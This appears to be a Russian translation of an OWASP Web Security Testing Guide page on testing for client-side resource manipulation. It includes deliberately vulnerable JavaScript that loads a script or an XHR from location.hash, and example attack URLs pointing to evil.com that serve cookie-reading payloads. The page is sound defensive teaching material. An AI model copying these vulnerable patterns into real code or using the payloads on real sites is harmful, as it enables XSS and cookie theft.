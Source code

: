 ```yaml
---

layout: col-document
title: WSTG - Latest
tags: WSTG

---
```


{% include breadcrumb.html %}
# Тестирование манипулирования ресурсами на стороне клиента

|ID          |
|------------|
|WSTG-CLNT-06|

## Обзор

Уязвимость, связанная с манипулированием ресурсами на стороне клиента, представляет собой недостаток контроля ввода. Это происходит, когда приложение принимает входные данные, контролируемые пользователем, которые указывают путь к ресурсу, такому как источник iframe, JavaScript, апплет или обработчик XMLHttpRequest (XHR). Эта уязвимость заключается в возможности контролировать URL, которые ссылаются на некоторые ресурсы, присутствующие на web-странице. Влияние этой уязвимости может быть разным, обычно она используется для проведения XSS-атак. Эта уязвимость позволяет вмешиваться в ожидаемое поведение приложения, заставляя его загружать и отображать вредоносные объекты.

В следующем коде JavaScript показан потенциально уязвимый скрипт, в котором злоумышленник может контролировать `location.hash` (источник), который связан с атрибутом `src` элемента скрипта. Данный пример приводит к XSS-атаке, поскольку допускает инъекцию внешнего JavaScript.

```html
<script>
    var d=document.createElement("script");
    if(location.hash.slice(1)) {
        d.src = location.hash.slice(1);
    }
    document.body.appendChild(d);
</script>
```

Злоумышленник может нацелиться на жертву, заставив ее посетить URL:

`www.victim.com/#http://evil.com/js.js`

Где `js.js` содержит:

```js
alert(document.cookie)
```

Это приведет к появлению предупреждения в браузере жертвы.

Более разрушительный сценарий включает в себя возможность управления URL, вызываемым в запросе CORS. Поскольку CORS позволяет запрашивающему домену получать доступ к целевому ресурсу с помощью подхода, основанного на HTTP-заголовках, злоумышленник может попросить целевую страницу загрузить вредоносный контент со своего собственного сайта.

Вот пример уязвимой страницы:

```html
<b id="p"></b>
<script>
    function createCORSRequest(method, url) {
        var xhr = new XMLHttpRequest();
        xhr.open(method, url, true);
        xhr.onreadystatechange = function () {
            if (this.status == 200 && this.readyState == 4) {
                document.getElementById('p').innerHTML = this.responseText;
            }
        };
        return xhr;
    }

    var xhr = createCORSRequest('GET', location.hash.slice(1));
    xhr.send(null);
</script>
```

Ввод `location.hash` контролирует пользователь и использует его для запроса внешнего ресурса, который затем будет отражён через конструкцию `innerHTML`. Злоумышленник может попросить жертву перейти по следующему URL:

`www.victim.com/#http://evil.com/html.html`

где полезная нагрузка обрабатывается в `html.html`:

```html
<?php
header('Access-Control-Allow-Origin: http://www.victim.com');
?>
<script>alert(document.cookie);</script>
```

## Задачи тестирования

- Найти приёмники с недостаточной проверкой входных данных.
- Оценить влияние манипуляций с ресурсами.

## Как тестировать

Чтобы вручную проверить наличие уязвимостей такого типа, мы должны выяснить, использует ли приложение входные данные без их адекватного контроля. Если это так, то эти входные данные находятся под контролем пользователя и могут использоваться для указания внешних ресурсов. Поскольку приложение может включать множество ресурсов (например, изображения, видео, объекты, css и iframe), следует изучить на предмет потенциальных проблем клиентские скрипты, обрабатывающие связанные URL.

В следующей таблице показаны возможные точки инъекции (приёмники), которые необходимо проверить:

| Тип ресурса   | Тег/метод                                | Приёмник   |
| --------------- | ----------------------------------------- | ------ |
| Фрейм           | iframe                                    | src    |
| Ссылка            | a                                         | href   |
| Запрос AJAX    | `xhr.open(method, [url], true);` | URL    |
| CSS             | link                                      | href   |
| Изображение           | img                                       | src    |
| Объект          | object                                    | data   |
| Скрипт          | script                                    | src    |

Наиболее интересными из них являются те, которые позволяют злоумышленнику включать код на стороне клиента (например, JavaScript), который может привести к уязвимостям XSS.
